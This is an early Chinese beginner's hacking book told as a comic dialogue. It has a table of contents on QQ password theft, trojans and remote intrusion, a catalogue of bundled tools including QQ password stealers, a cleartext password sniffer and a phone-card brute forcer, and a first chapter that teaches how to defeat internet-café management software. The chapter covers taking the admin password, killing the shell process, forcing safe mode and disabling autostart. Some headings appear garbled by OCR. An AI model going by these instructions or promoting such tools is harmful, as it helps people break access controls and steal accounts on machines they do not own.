# 傻瓜黑客1

## 黑客简介

当阿瓜遇上怪哥，当菜鸟碰到黑客，阿瓜千问不倦，怪哥百答不厌。幽默的片段，睿智的对话，阿瓜怪哥领我们轻松黑客游。

## 高家的小小技巧

往往就差那么一点点，而功亏一篑。小小技巧开启我们智慧之门。高手把复杂的东西简单化，于是让我们避免了绕弯里的弯路。书中各种高手的小小技巧，值得体会，都是不可多得的经验之谈。

（竖排正文）黑客相关介绍与技巧说明的长段落文字。

## 爱瓜黑客 I

本手册随光盘赠送

**黑客 X 档案**


（竖排正文）黑客工具、经验与案例的长段落文字。

## 木马热身场景

致命网吧，危险洞穴，QQ 攻防策略，深入敌后。

## 黑客兵器库

Hacker/Cracker 工具、高手肩膀上、快捷切入黑客的神秘世界，体验黑客的极致快感。各类黑客教程穿插于庞大教程的成长故事中，让我们在轻松氛围下消化这些精彩内容。

## 爱爪聚舍


## 第一章 摆脱初级的枷锁——网吧管理软件破解

- 1.1 初窥宝地——常用网吧管理软件简介 …… 8
  - 1.1.1 美萍电脑安全卫士 …… 8
  - 1.1.2 电脑室网吧管理器 …… 8
  - 1.1.3 网吧管理专家 …… 9
  - 1.1.4 游戏机房管理专家 …… 9
- 1.2 庖丁解牛——网吧管理软件的作用原理 …… 9
- 1.3 小试牛刀——通用网管软件破解技巧 …… 11
  - 1.3.1 花拳绣腿——从系统入手破解法 …… 11
  - 1.3.2 花拳绣腿——利用 QQ 法 …… 15
  - 1.3.3 花拳绣腿——利用“帮助”法 …… 17
  - 1.3.4 乱七八“招” …… 18
- 1.4 对症下药——具体软件具体分析 …… 18
  - 1.4.1 万象幻境 …… 18
  - 1.4.2 网吧管理专家 …… 19
  - 1.4.3 关于限制 …… 20
- 1.5 剧情小花絮 …… 22

## 第二章 让我恐吓让我忧——QQ 攻防

- 2.1 就地取材——本地密码窃取 …… 24
  - 2.1.1 QQ 木马——GOP 的使用 …… 25
  - 2.1.2 后台密码窃取——Share QQ …… 28
  - 2.1.3 密码本地窃取工具的完全不自动检查与清除 …… 30
  - 2.1.4 其它密码窃取工具的防范方法 …… 33
  - 2.1.5 地方防卫战 …… 36
- 2.2 甘地运动！——密码的破解 …… 36
  - 2.2.1 地方保护主义 …… 37
  - 2.2.2 飞跃维度！超时空传送——远程破解 …… 38
  - 2.2.3 姜炸攻击 …… 43
  - 2.2.4 如何避免扫号工具的骚扰 …… 46
- 2.3 家贼难防——本地信息的查看 …… 47

## 第三章 窗里的世界——利用网页的攻击与防范

- 3.1 问题的根本——注册表 …… 52
  - 3.1.1 注册表的由来 …… 52
  - 3.1.2 注册表的特点 …… 52
  - 3.1.3 注册表的文件组成 …… 52
  - 3.1.4 注册表的键值项数据 …… 53
- 3.2 飞进来的是什么——各种恶意修改方法与修复方法 …… 53
  - 3.2.1 给你的窗户起个名字——修改 IE 浏览器标题栏 …… 54
  - 3.2.2 换掉你的玻璃——修改 IE 默认主页 …… 55
  - 3.2.3 给你贴上窗花好吗——修改 IE 右键菜单 …… 56
  - 3.2.4 在 Windows 启动时弹出一个窗口并自动访问某个网站 …… 56
  - 3.2.5 锁上你的窗户——锁定设置项，禁止用户更改 …… 57
  - 3.2.6 锁定注册表编辑器 …… 60
  - 3.2.7 穿窗入室——浏览网页硬盘被共享 …… 60
- 3.3 用纱窗阻止飞虫——网页作怪的预防方法 …… 62
- 3.4 常用防护软件简介 …… 62
- 附文：用来攻击的恶意代码示例 …… 63

## 第四章 深入敌后——远程攻击

- 4.1 送个宠物给你——利用木马入侵 …… 67
  - 4.1.1 国产木马精品之——冰河 …… 68
  - 4.1.2 不落俗套——网络神偷 …… 71
  - 4.1.3 斩草除根——手动杀毒的方法 …… 72
- 4.2 密道在哪里——利用 Win2000 漏洞入侵 …… 76
  - 4.2.1 密道是什么样的——漏洞描述 …… 76
  - 4.2.2 需要的工具 …… 77
  - 4.2.3 这条路怎么走——入侵过程详解 …… 77
- 4.3 到邻家串门——利用 Win98 共享漏洞入侵 …… 79
  - 4.3.1 善事之利器——所需工具 …… 79
  - 4.3.2 路在脚下——入侵过程详解 …… 80
- 4.4 危险之旅——入侵网站 …… 81
  - 4.4.1 微软是我哥们——利用 IIS 漏洞入侵 …… 81
  - 4.4.2 机会无处不在——其他漏洞列举 …… 84
- 4.5 最后一招——通过远程密码破解入侵 …… 84
  - 4.5.1 你的就是我的——破解邮箱密码 …… 84
  - 4.5.2 异曲同工——FTP 站点破解 …… 87
- 附文1 DOS 下常用的相关网络命令 …… 87
- 附文2 密码心理学 …… 92

## 第五章 从内部突破堡垒——离线破解

- 5.1 打开堡垒的铁门 …… 95
  - 5.1.1 找出 CMOS 密码 …… 95
  - 5.1.2 破解 BIOS 密码 …… 97
  - 5.1.3 芝麻开门——破解开机密码 …… 98
  - 5.1.4 拉开你的窗帘——屏保破解 …… 99
  - 5.1.5 给我能量吧——电源管理密码破解 …… 99
- 5.2 密室玄机——文件夹的加密和破解 …… 99
  - 5.2.1 初学者的伎俩——将文件夹隐藏 …… 100
  - 5.2.2 寻根溯源——通用文件夹解密方法 …… 100
- 5.3 猜谜游戏——加密文件破解 …… 101
  - 5.3.1 Word 文件破解 …… 101
  - 5.3.2 Excel 和 Access 密码破解 …… 101
  - 5.3.3 WPS2000 文件的破解 …… 101
  - 5.3.4 ZIP 文件的破解 …… 104
- 5.4 遇佛杀佛，遇神杀神——软件使用限制破解 …… 105
- 5.5 登堂入室——利用系统漏洞提升权限 …… 107

## 第六章 傻瓜兵器——防火墙的威力

- 6.1 金山毒霸 …… 110
- 6.2 天网防火墙 …… 112
- 6.3 诺顿网络安全特警 …… 115
- 6.4 木马克星 …… 119
- 6.5 小而精的武器——小软天堂 …… 121
- 尾声 …… 124

## 附录（网络基础知识）

- 一、网络的定义及特点 …… 126
- 二、网络的分类及组成 …… 126
- 三、协议的定义及意义 …… 128
- 四、网络发展简史 …… 129
- 五、OSI 七层模型 …… 133
- 常见网络 10 大问题 …… 135
- Linux/Unix 经典问题与解答 …… 137

## “流光”终结教程

- 一切从流光说起 …… 143
- 流光基础教程（一）FTP/POP3 探测 …… 144
- 流光基础教程（二）IPSS 探测 …… 147
- 流光基础教程（三）SQL 探测和其它一些说明 …… 151
- 流光基础教程（四）高级扫描向导 …… 154
- 流光基础教程（五）扫描结果分析利用 …… 159

### IP 工具

- **Reachability 1.0.1.7**：可指定一个文本文件（含多个 IP，一行一个）并批量 Ping；可达显示绿勾，不可达显示红叉；免安装可直接运行。
- **SuperScan 2.06**：TCP 端口扫描器，含 Ping 和域名解析功能。
- **SwitchIP Pro 2.1**：可自由切换多个 IP 地址设置，但仍需重启。
- **Tray Ping 1.5**：最小化到系统托盘，可同时/定时 Ping 多个 IP，并以托盘图标显示状态，可建 LOG 文件。
- **Whaddayagot 2000.05a**：列出局域网计算机（IP、MAC、NIC 厂商等），并可探测被搜寻主机信息。
- **Winip 2.2.0.1**：让互联网用户通过静态主机名访问你的机器（即使用动态 IP 也可）。
- **IP Hunter 1.2**：可直接探测到对方上网 IP 地址。
- **WEB Gateway 1.0.107**：动态 IP 场景下自动建立 HTML 并上传个人站点，使他人可通过链接访问你的机器。

### QQ 工具

- **QQ 列表精灵 B0301**：可对 QQ 登录窗口中的号码列表进行删除、添加、修改，并可读取“记住密码”项找回忘记的密码和号码。
- **QQ 去 FLASH 广告补丁**：去除 QQ 烦人的 Flash 广告。
- **QQ 窃密 V5.0**：支持多版本 QQ，号称可窃取密码和聊天记录，并具邮件发送、密码验证等功能。
- **QQ 安全精灵 V0131**：用于清除公共计算机上的 QQ 密码记录器及聊天记录痕迹。

使你 QQ 得更安心自在。

- **QQ 浏览器转 IE 工具 V1.2**：将 QQ 内部链接调用改为 IE（以 Tbrowser.exe 覆盖实现）。
- **QQ 记录清除器 V1.3**：用于防止 QQ 号及聊天记录泄露；离开前输入号码回车即可。
- **QQ 好友列表 V1.3**：读取 QQ 好友列表。
- **OICQ 刷屏工具 2.02**：修正旧版间断问题并完善功能。
- **QQ 秘密潜入 1.1**：增强 QQ 登录界面号码列表相关功能，配合特定操作可找回失联好友。
- **密码截取 V2.8**：可截取输入框密码（拨号连接/OICQ/IE 等）并明文保存。
- **OICQ 在线隐身查询器**：查询在线隐身好友。

### 密码工具

- **CMOS 密码提取**：可显示多种 BIOS（Acer、AMI、AWARD、COMPAQ、DELL、IBM、PACKARD BELL、PHOENIX、ZENITH AMI 等）密码。
- **EXCEL97/2000/XP 密码查看器**：用于个人 Excel 文档密码遗忘时探测密码。
- **pqwak2**：利用 WIN9X 共享密码验证漏洞的工具。
- **Screen Saver Password Recovery**：屏保密码恢复工具。
- **内网口令杀手**：可监听 POP3、TELNET、HTTP、FTP、IMAP、NNTP 等明文口令（命令行方式）。
- **Visual Zip Password Recovery Processor v4.7**：ZIP 文件密码破解程序。
- **WPS2000 Password Recovery V1.0**：WPS 文件密码忘记时使用。
- **WORD97/2000/XP 密码查看器**：WORD 文件密码查看工具。
- 屏保密码窃取器——可找出屏保设定的密码。
- Win2k password 清除程序——清除 WINDOWS 2000 的密码设定。

### 辅助工具

时空大虾——是一款解除软件时间限制的软件，其操作简单、方便，既具有自动跟踪功能，又可手工干预。对利用系统时间并能从本软件启动的有时间限制软件有效！

- IE 保护器——超级兔子出品。全面保护 IE。
- 电话卡暴力破解器 v2.0——不用说也知道是做什么的吧。
- 代理猎手 V3.1——搜索代理服务器的软件，本书有介绍。
- 渗透 2.1——无需任何密码即可打开加密图像。
- ListNetIP v1.3——网上邻居 IP 地址查看工具。
- BUE 密码精灵——看密码的工具。

### 防火墙工具

- XP-AntiSpy V3.51——把 Windows XP 里面好多可能泄露个人信息的选项禁用，并把一些限制解除。
- 费尔个人防火墙 2.0——为您营造一个充满乐趣的安全网络。
- Tiny Personal Firewall 3.0——Tiny Personal Firewall 是一个全面却又简单易用的网络防黑软件。
- 木马克星 V5.34——该版本内置木马防火墙，可以阻止黑客入侵，能准确报告入侵黑客位置。
- Inzider 1.2——Inzider 是用来发现监听端口的进程的软件。它能有效地发现隐藏在其它进程中的 Back Orifice 2000。
- HackTracer——是一个个人防火墙软件，防止黑客袭击。安装在 PC 上后在后台工作，监视系统，能找出任何企图侵入用户系统的黑客所在位置。
- Cool-Fire 2.103——国外的一款防火墙软件。

### 网吧破解工具

- 万象网管专业版 10.1
- 万象幻境游戏房管理破解 6.6
- 万象网吧管理系统 9.3
- 万象幻境局域网管理破解 6.6
- 万象网站过滤专家 V1.0
- 美萍网管大师 5.2 版
- 电脑室网吧管理器 v3.6 破解版
- 万象幻境之专家网管系统完美破解 6.0
- 美萍安全卫士密码破解器 v0.31
- 万象幻境之专家网管系统破解程序 6.0.18
- 万象幻境普及版密码破解器 v0.1
- 万象幻境网吧管理破解 6.6 版本

### 木马清除工具

- Trojan Remover
- Trojan Defence Suite
- Tiny Trojan Trap
- Trojan Security

### 远程扫描工具

- IIS Cracker
- Dotpot PortReady 1.6
- X-way 2.51
- Rangscan 0.6
- SFind v1.85
- Hostscangb121
- 风暴扫描器 v1.00
- Windows 共享资源扫描器
- 追捕

### 其它工具集合

各种类型黑客工具 200 余款，在此不能一一介绍，其中的宝贝读者您自己去发掘了。

### 黑客教程

- 丰富实用的各类教程是学习进步必不可少的。
- 破解教程——从汇编基础到高级脱壳全程讲解。
- 黑客教学——非常全面的黑客教程，有“黑客问答机”的美称。
- 安全教程——病毒！漏洞！加密！防范！还有很多很多……
- 黑客技巧大全——想了解黑客的高级技术吗？这里全都有了。
- 电脑应用技巧集——电脑的日常维护与应用问题当然是免不了的，如果有什么需要先到这来看，您会找到答案的。

## 桂殿兰宫图像逻辑

网吧信息软件破解

黎相宜

## 第一章 摆脱枷锁的束缚

## ——网吧管理软件破解

“咔……，真是没天良，挨千刀的。气煞俺也。”

阿瓜嘟囔着，就要把鼠标拍在桌子上。不经意瞅到老板愤怒的眼光，不由将小鼠轻轻地放下，爱抚地说：“多可爱的小鼠鼠啊\~\~\~”（咬牙切齿！）

“怎么了？”邻座的一个大男孩友好地问。

“我刚 Down 了一首歌，可是忘记保存在什么地方了，本想在‘我的电脑’中找找的，可是，怎么这里的机器不能用‘我的电脑’呢？这不是白 Down 了吗？”阿瓜说。

“这有什么好烦的，网吧都用了管理软件嘛，把电脑里的很多功能和软件都给锁掉了啊。”叫榕哥的男孩热情地对阿瓜说。

“管理软件？是什么东东啊？吃饱了撑的要用这样的软件？麻烦删掉！”阿瓜问，“俺才刚上道，啥也不懂，你能教教俺吗？”

“这个……”榕哥一阵犹豫。

阿瓜心领神会：“自然少不了你的好处。这个是我班上最靓的女生相片哦！”说罢，晃了晃手中那张照片。

“谁说我不教你了，我这不是在想要怎么给你说嘛！”榕哥眼睛一亮。

“网吧管理软件嘛，是软件的一种（废话！）。很多网吧都遇到过一些‘多手多脚’的上网者，他们在上网之余还喜欢对网吧的机器设置进行更改，以示他们的水平高，证明他们不是个菜鸟。这样，经营一段时间之后这些机器就被修改得乱七八糟的了。网吧管理软件就是这样的一种工具软件，它可以让用户只能运行指定的程序，打开指定的文件，这样就可以避免设置被东改西改的。”榕哥介绍道。

### 1.1 初窥宝地——常用网吧管理软件简介

“现在常用的呢，有这么几种……（从裤袋深层抽出一本小黄书。）”

阿瓜拿过来，飞快地仔细看了看。上面是这样写的。

### 1.1.1——美萍电脑安全卫士

《美萍电脑安全卫士》从诞生之日起，就着重解决网吧、电脑屋、学校机房等公共场所的计算机安全性问题。经过多次改进，成为最实用的安全保护和计费管理软件。它利用许多先进的 Windows 内核技术，全真虚拟 Win9x 桌面，实现了硬盘文件保护、远程控制、限时或定时运行计算机、应用软件选择运行等多项功能。在这个最新版本中，增加了许多重要的功能：黄色站点限制功能，用户可以自由增减限制站点；网站记录功能，软件会自动记录所有访问过的网站名称和地址；远程升级功能，以后再也不用挨着每台计算机去升级了；开机屏蔽 Ctrl + Alt + Del 键的功能，防止系统启动过程中被强制重启。另外，新版本还改进了软件启动方法，加快了启动速度。如果《美萍电脑安全卫士》与《美萍网管大师》配合使用，可以实现网络中的远程管理，对所有计算机进行集中计时和计费操作，大大减轻了网络管理员的工作，使计时、计费准确可靠。

### 1.1.2——电脑室网吧管理器

榕哥说：“另外还有《电脑室网吧管理器》。这是一款与《美萍电脑安全卫士》在界面上非常相似的软件。不过，它能被我推荐，自然有其特别的地方。”

《电脑室网吧管理器》在没有密码的情况下不能返回系统桌面。

它禁止 IE 浏览器访问系统资源，并且不允许随意删除文件。它通过多种设置，彻底保护你的系统，并且只允许启动指定的程序。它在系统启动的同时可自动启动其它程序，如翻译软件等。它还有自动计费、按游戏和上网分别计时、会员其它费用管理的功能。另外，它能保存自己游戏进度，不用担心被别人覆盖，只有上机者本人才能取得到自己的游戏进度。它特别的地方是支持插件功能，会编程序的朋友可按自己的要求编写和加入插件以扩展功能；系统所有操作均记录在案，如启动的程序名、上网所用的时间、游戏排行分析等。在《电脑室网吧管理器》的安装包中已经包含了……《集中管理器》，两个配合使用可以实现网络的远程控制功能，令网吧管理更加方便。

榕哥对阿瓜说道：“专家系列网管软件由多个配套软件组成，功能强大，适合网吧、学校校园网、医院、培训班、图书馆、家庭、游戏机房等要求对计算机进行安全管理的场所使用。与美萍系列软件相比，除了在软件界面上有所创新之外，功能也更加复杂，当然在安全性上毫不逊色。这里从这套软件中选择出非常适合网吧管理的两个软件给你说说。”

阿瓜说：“这个网吧用的网吧管理软件包括在内吗？”榕哥嘿嘿一笑说：“当然啦，不然教你有什么用啊。下面就听我说吧。”

### 1.1.3——网吧管理专家

《网吧管理专家》的前身是《章鱼助理》（一个早期开发的软件），它继承了《章鱼助理》的所有优点，并且新增和改进了很多功能。它通过替换开始菜单、系统桌面和更改各种 Windows 内部系统调用来保护你的计算机，同时又不会因为替换了任务栏使 OICQ、ICQ、NetAnts、Foxmail 这类需要驻留应用程序托盘的程序无法运行。它为网吧提供单机本地计费和网络计费两种方式，可以分时段计费或分类别计费（分为游戏、上网、无限制等）。它提供对上机记录的分析统计功能，且能绘制出上机图表。它还提供会员制管理以及刷卡管理，支持各种 IC 卡、磁卡，提供多种计费方式。网络管理是这个软件的最大特色，你可以实现远程修改计算机时间、关机、重启等操作，还可以远程得到其他计算机的硬件资源消耗情况和发送的消息。

### 1.1.4——游戏机房管理专家

“游戏机房管理专家”是专家系列网管软件之一，它同样继承了《章鱼助理》（一个早期开发的软件）的所有优点，并且新增和改进了很多功能。它通过替换 Windows 外壳来保护你的计算机，完全支持键盘和各种游戏修改工具。

它同其他专家系列网管软件一样，同样具有网络管理功能：你可以远程修改计算机时间、关机、重启等，还可以远程得到其他计算机的硬件资源消耗情况和发送的消息；适合网吧、学校校园网、医院、培训班、图书馆、家庭、游戏机房等要求对计算机进行远程管理的场所使用。

它突出的特点是针对游戏机房进行了专门的设计，能兼容各种游戏程序，游戏运行更稳定可靠。

“这不是很好吗？可是它为什么不让我查看‘我的电脑’呢？”阿瓜奇怪地问道。榕哥笑着回答：“要是让你可以访问‘我的电脑’，那不是给了你访问硬盘的权利了吗？利用它，可以对本机做很多的修改呢。比如说，格式化硬盘什么的。”阿瓜不好意思地笑着说：“是啊，我刚才没有想到。可是，这样给我们带来很多烦恼啊，就像刚才。”

“这个其实不用紧张啦，大不了跟他单挑，找个密码破解器什么的搞到它的系统密码，退出去就 OK 了，反正现在基本上都是用的美萍嘛。这个方法比较简单，有两种常用软件——‘美萍安全卫士密码探测器’和‘美萍安全卫士密码破解器’，用搜索引擎可以查到。现在可以在美萍安全卫士 8.1 以下的版本中使用。但是，这种方法主要难在找到相应的工具，新浪网的搜索引擎还不错，以‘美萍’‘密码破解’‘黑客’等关键字查找，仔细搜一下就能找到，第一次可能困难点，以后就轻车熟路了。有时不能下载或下载困难，直接打开运行就可以。这些文件一般是压缩文件，在这之前还要安装解压软件，也可以用搜索查到，如 Winzip、Winrar 等，这种东西比蚂蚁还多，满地都捡得到啦；挑不过他的话，那你就躲他嘛，他不走，我走还不行吗，从 a 到 b 又不是只有直线可以走，大不了多绕两步路，辛苦脚跟子一下就是了。”榕哥说。

“那快教我吧！”阿瓜急不可待。

“好好好，你且听我慢慢道来。先给你进行一下理论教育，听好喽……”

### 1.2 庖丁解牛——网吧管理软件的作用原理

阿瓜把一杯柠檬茶放在榕哥手边。榕哥润了润喉咙，开始讲座。“首先我们得明确网管类软件的目的：简化机房的日常管理。而机房的日常管理主要就是保证每台机器正常运行和整个网络的稳定，再有就是上机收费。也就是说，主要是方便管理者而不是使用者。出于这个目的，网管类软件要能……”


## 第二章

做到：一、限制一般用户的某些操作，主要包括对重点文件的访问及更改系统设置；二、上机管理及计费，可能还包括第三个作用，监控用户的操作，之所以说是“可能还包括”，主要是因为这牵扯到隐私的问题，太过敏感，咱们不讨论这个功能。而管理者和使用者的目的是矛盾的，强化了一方必然损害另一方。这样一来，大家就都知道为什么使用者对网管类软件“深恶痛绝”了。不是所有的预设都能让所有的使用者满意——尤其是在这样一个强调个性化的时代，出于安全性的考虑，限制了对硬盘的访问也会对某些正常的使用带来不便（举个例子，在网吧上网后想删除自己的聊天记录）；至于计费，倒还在其次，毕竟大部分人还都是讲道理的，而且大部分的网吧也还有手工计费。”

阿瓜说：“那我遇到的问题应该算是网吧管理软件的第一个作用了？”

榕哥：“对，想知道怎么解决这个问题吧，想知道就继续听我说。”

“网管类软件的原理也很简单，不过是个外壳（shell）程序而已，它先于其他一切程序加载，提供一个（受密码保护的）界面，一般用户（只能）通过这个界面调用（一些被允许的）程序。为什么要加括号呢？因为最早的网管类软件是不提供那些括号里的功能的，哈哈，也就是说，那时的网管类软件主要是方便使用者的：因为那时的网管类软件主要是用在游戏房，上百个游戏如果都从开始菜单或者安装路径下启动就太麻烦了，后来网管类软件才慢慢开始强调管理功能，加上密码保护、封锁热键，直到客户机/服务器模式、数据库管理。这时候矛盾就开始激化了，于是便开始有人破解网吧管理软件。”

阿瓜想：“第一个开始破解网吧管理软件的人一定很牛。”

“任何一个程序都会结束（废话），无非是分为从正常出口结束和非正常结束。网管软件也不例外，正常出口就是通过密码退出，那么破解的第一思路就是取得密码。一般来说，密码通常是烂在一个设置文件或者是注册表，先来讨论密码在一个设置文件里的情况。在这种情况下，破解的问题就变成了如何访问硬盘，因为所有的文件最终都在硬盘上（还是废话），一般来说封锁对硬盘的访问是小菜一碟，可是总有些特殊情况。通过运行或者地址栏咱们就不说了，通过快捷方式的查找目标来进入硬盘也是一个常见的方法，利用 chm 文件（大家知道 Win2000 的那个致命的 bug 吗）？不知道也没关系，在后面会做详细介绍的。还有一些工具软件也可以被利用，最常见的是 Acdsee，呵呵，它的浏览功能帮过我不少忙（后面会有介绍），其实只要是有驱动器列表和目录列表控件的软件几乎都可以被利用，因为那是 Windows 的标准控件，一般都很难屏蔽的。只要能看到，一般就能修改，退一步说，即便不能修改，绝大多数网管类软件的加密也是不堪一击的。至于密码在注册表的情况，只要安装一遍，定位到键值，破解就不是什么问题，其安全性甚至还不如在设置文件里。这是从技术层面的讨论，还有些非技术因素，比如，可以制造一些状况，来让管理员处理，然后就可以在一旁看到密码。”

榕哥说完这些喝了一口茶，观察了一下阿瓜的反应，看到阿瓜瞪大了眼睛竖着耳朵听着，很满意地继续说。

“从正常出口退出显然太麻烦，那么我们看看非正常结束。大家都知道，Windows 里任何一个程序对 Windows 系统来说都是一个任务，任务管理器就是用来管理它们的。当然了，所有的网管类软件都屏蔽了 Ctrl+Alt+Del，我们没办法用 Windows 自带的任务管理器，可是别忘了我们有网络，强烈推荐 Taskinfo，可以任意终止进程，甚至每个进程的不同线程都一目了然。其他类似的软件还有很多，而且都可以下载到，体积也小，大部分不用安装，可以说是网管类软件的灾难。你知道我最常用的是哪个吗？Fpe2000！！它的好处在于好找，几乎是台机器就有，连下载都不用。”

“当然了，最彻底的方法是根本不让网管软件启动，在安全模式下做到这一点，不幸的是就是因为大家都知道，所以开机热键也就被屏蔽掉了，可是我们仍然可以进入安全模式！要知道，如果 Windows 检测到上次启动失败，就会自动进入安全模式，俗话说得好，有问题要解决，没有问题制造问题也要解决（哪里的俗话？）。在启动过程中按下 Reset，Windows 可没办法分辨到底是什么原因导致启动失败的，启动菜单乖乖地就出来了，然后就看各自的发挥了。顺便说一下，大家都说开机按 F7 或 F8，可能是我手太慢？对 Win98 这样做从来没成功过，我都是用 Ctrl 呼叫菜单或者用 Shift 直接进安全模式。”

榕哥看见阿瓜一脸委屈，于是对阿瓜说：“这样说你是不是感到不太好理解？没关系，只要你试一试，马上你就明白了。”

榕哥继续：“可以说，现在的网管类软件在上面几招之下没有一个能幸免的。究其原因，还是和系统结合得不够紧密；在正常模式可以将其剥离出来而不影响系统的正常运行，在安全模式下的最小核心文件里显然也没有包含网管软件，导致无法提供保护。要解决这个问题，只有使网管软件成为 Windows 的一部分，一旦网管软件停止运行，整个 Windows 也随之停止。最简单的思路莫过于修改 system.ini，‘shell=’项；复杂一点的办法是替换一些设备驱动文件，在尽量不影响系统稳定的条件下加入自己需要的功能。最好的下手点应该是键盘鼠标的驱动了，因为在任何情况下，Windows 都要加载键盘鼠标驱动，而且键盘鼠标驱动相对比较简单，便于修改。以上分析没有经过测试，因为还没有使用这些思路的软件，不过理论上是行得通的。”

“听不太懂也……”阿瓜不太好意思地说。

“听不懂没关系，反正刚才所说纯属虚构，如有雷同，实属巧合~~”榕哥一个呼哨。

“啊！这样也行，看我撕了她！”阿瓜摇一摇手中那张克妹的相片，恶狠狠地说，好像是被耍的感觉。自然地，自尊心让他怒火中烧。

“啊，不要，开点玩笑嘛。”榕哥陪上一脸的笑，“真是不懂得怜香惜玉，现在的年轻人哪……”

“你说什么？”

“啊，没什么没什么，继续继续！”

“刚才的原理你大概有个印象就可以了，关键是如何破解。这就教你几招实用的，以备不时之需。”

## 解法

### 第一招：“安”居乐业


正常启动计算机呢，当然没有什么便宜好捞的。那就到安全模式下去溜达看看咯。

重新启动计算机，现在“STARTING WINDOWS...”后按住 F8 就会出现启动菜单（也可以一直按着 Shift 键）。进入安全模式。嘿嘿，发现什么了。对了，一般在这里面，管理软件基本不会对系统产生什么影响；当然不是叫你在这下面去上网等等，那可够呛。分辨率低，颜色只有 16 色，那还不要命？

现在你可是可以直接操作 Windows，对硬盘进行读写。那你知道该怎么做了？随便不小心地抖掉网吧管理软件；或者是极不经意地运行 msconfig，取消网吧管理软件的自动运行。总之，有什么想法，自己就实现去吧，这是个梦想快速转换为现实的好方法。不过，小子，记着：凡事太尽，缘分势必早尽。不要太过分了哦 :-）。

“等一下！”阿瓜举起手来。

“说！”榕哥横眉冷对。

“这个 msconfig 是怎么回事？”阿瓜软下语气。我倒！榕哥有气无力，仔细听好喽：

点开始→运行→弹出如下的窗口，键入 msconfig，如图：1-3-1



1-3-1 运行“msconfig”

点选确定，出现如下命令框，如图：1-3-2，这个小框不要告诉我你没见过



1-3-2 系统配置实用程序

### 1.3 小试牛刀——通用网管软件破解技巧

榕哥看了看阿瓜仍在怒犹未尽地生气，说道：“闲话休提，进入正文。”

### 1.3.1 稳垒撬脆——从系统入手踢

“那我是没见过嘛！”阿瓜蹦蹦跳跳地说。

“也用不着多说啦。现在我们要用的只是其中的‘启动’选项栏。这里面包括了各种开机自运行的程序名。你可以根据需要来决定程序是否要在开机时候自动运行。”

> **黑客提示**  
> 其实它是注册表中的一个主键，这个主键是 `HKEY_LOCAL_MACHINE\Software\Microsoft\Windows\Run`（如图 1-3-3）。然后到右边的框内看看，你发现什么了？对了，用运行→`msconfig`→启动，得到的框内内容和这里的键是一一对应的。也就是说，`msconfig` 这里面无非是把注册表里的内容变形象，以更简易的交互形式展示出来。

“不管怎么说，我们要把关于网吧管理软件给干掉，这才是目标。用注册表还是通过 `msconfig`，效果都是一样的。”



1-3-3 注册表编辑器

刚才说的好像不是注册表吧，怎么扯到这里来了，言归正传，要选启动这一栏……

选到启动的选项框，出现如下命令框，如图 1-3-4：

